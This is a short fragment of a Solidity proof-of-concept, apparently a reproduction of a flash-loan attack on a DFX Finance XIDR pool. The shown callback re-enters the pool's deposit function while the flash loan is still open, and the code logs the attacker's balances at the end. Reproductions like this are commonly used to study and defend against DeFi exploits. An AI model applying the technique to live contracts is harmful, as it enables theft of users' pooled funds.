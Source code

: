 ```

        console.log("-------------------------------- End Exploit ----------------------------------");
        emit log_named_decimal_uint("[End] Attacker usdc Balance", IERC20(usdc).balanceOf(address(this)), 6);
        emit log_named_decimal_uint("[End] Attacker xidr Balance", IERC20(xidr).balanceOf(address(this)), 6);
    }

    function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external {
        (lpToken,) = dfxXidrV2.deposit(200_000 * 1e18, block.timestamp + 60);

        emit log_named_decimal_uint("Attacker lpToken Balance", IERC20(dfx).balanceOf(address(this)), 0);
    }
}
```
